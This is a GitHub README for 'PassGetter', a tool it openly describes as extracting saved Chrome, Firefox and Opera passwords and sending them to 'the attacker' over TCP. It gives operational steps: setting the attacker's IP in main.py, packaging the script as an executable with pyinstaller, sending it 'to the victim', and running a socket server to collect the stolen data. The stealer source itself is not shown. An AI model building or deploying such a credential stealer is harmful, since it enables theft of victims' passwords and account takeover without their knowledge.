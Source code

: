 # PassGetter
Extract saved passwords of the browsers (i.e Chrome, Firefox, Opera) in the form of .db files and transfer em to the attacker via sockets

## How it works
![alt text](https://media.discordapp.net/attachments/733792205663371286/755806305016610842/image.png)

Basically when u send the file to the victim's computer it processes the system information (OS name) and then it searches for the path to the saved credentials of the browser (look into the code for more info) after that it extracts the data in a .db format and sends it to the attacker via TCP.

## How to make it work

Put the ip address to your machine in _main.py_  on line 82
```
host = "<Your_IP>"
```
Convert the _main.py_ to _.exe_ or a linux binary executable using pyinstaller
```
pyinstaller --path <Path to Python>\Python\Lib\site-packages\pywin32_system32 --onefile main.py
``` 
Then send it to the victim and run the _server.py_ inside the sockets folder
```
python3 server.py
```
and wait for the magic to happen

## Requirements

Make sure to install the requirements before converting it to _.exe_ or else the conversion will fail
```
pip install -r requirements.txt
```

## Credits

[Firefox Pass Extraction - unode] (https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py)
[Chrome Pass Extraction - Stackoverflow] (https://stackoverflow.com/questions/61099492/chrome-80-password-file-decryption-in-python)
